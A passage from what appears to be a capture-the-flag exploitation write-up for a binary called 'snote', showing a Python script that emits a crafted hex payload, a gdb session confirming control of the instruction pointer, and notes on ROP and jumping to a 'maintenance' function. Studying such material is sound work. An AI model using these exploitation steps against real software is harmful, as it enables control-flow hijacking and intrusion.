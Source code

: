 We note the faulting address `6f6f6f736f6f6f6f` shows up twice in the payload. Let's modify each one and see which one controls the IP. Let's put it in a python file and marking the first instance with a sequence of "aaa"s and the second one with a sequence of "bbb"s (this is the best way to detect which bytes give you control but is definitely the fastest).

```python
import sys

payload = "736563725ead6f6f69816fa76f6f736f6f6f6f6f176f6f6f6f6f6f6f636f816fa76f6f736f6f6f6f6f176f6f6f6f6f6f6f636f726fb1826f726f6f8a6f6f6f6f6f6f6f5f6f6f6f6f6008652dcfa65500fa0000fa6f6f6f6faaaaaaaaaaaaaaaa6f5f6f6f6f6f6f6f6f6fe86f6f6f6f70536f6f6f6f6fbbbbbbbbbbbbbbbb6f176f6f6f6f536f6f6f6f506f6f6f6f6f6f6f6f6f6f6f6f6f6f6f636f"
sys.stdout.buffer.write(bytes.fromhex(payload))
```

Let's try it out:

```
$ python3 exploit.py > poc2
$ docker run  -v `pwd`/:/input -it ethan42/snote:3 bash
root@5440c590a40c:/# apt update
...
root@5440c590a40c:/# apt install gdb
...

root@5440c590a40c:/# gdb ./snote
(gdb) r subject /input/poc2
Starting program: /snote subject /input/poc2
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
*Time: 761596000:5613263
*Subject: subject by CTO
*Note: secr^�ooi�o�oosooooooooooooco�o�oosoooooooooooocoro��oroo�ooooooo_ooooe-ϦU

Program received signal SIGSEGV, Segmentation fault.
0x000055a4394f929d in note ()
(gdb) x/i $rip
=> 0x55a4394f929d <note+186>:	ret
(gdb) x/1gx $rsp
0x7ffe666b61a8:	0xaaaaaaaaaaaaaaaa
```

Well the message is pretty clear, we now know which bytes control RIP and can jump anywhere in the text section. Interestingly, modifying bytes 8-24 *before* the 8 bytes corresponding to the RIP breaks the control hijack because of the multiplication constraint we showed earlier in the code - so we need to restrict our changes to bytes *after* the RIP bytes.

Traditionally we may want to try [Return-Oriented Programming](https://en.wikipedia.org/wiki/Return-oriented_programming) (ROP) as the next step towards weaponization. In this particular example, we have ASLR/PIE on as we saw earlier so it may be a bit more difficult, *but* we also saw a `maintenance` function conveniently located next to the `note` function we were exploiting. Specifically, we see that `main` would return to an address `0x...7363`:

```
   0x000055c90f757358 <+186>:	mov    -0x8(%rbp),%rdx
   0x000055c90f75735c <+190>:	mov    %eax,%edi
   0x000055c90f75735e <+192>:	call   0x55c90f7571e3 <note>
   0x000055c90f757363 <+197>:	mov    -0x18(%rbp),%rax
   0x000055c90f757367 <+201>:	mov    %rax,%rdi
```
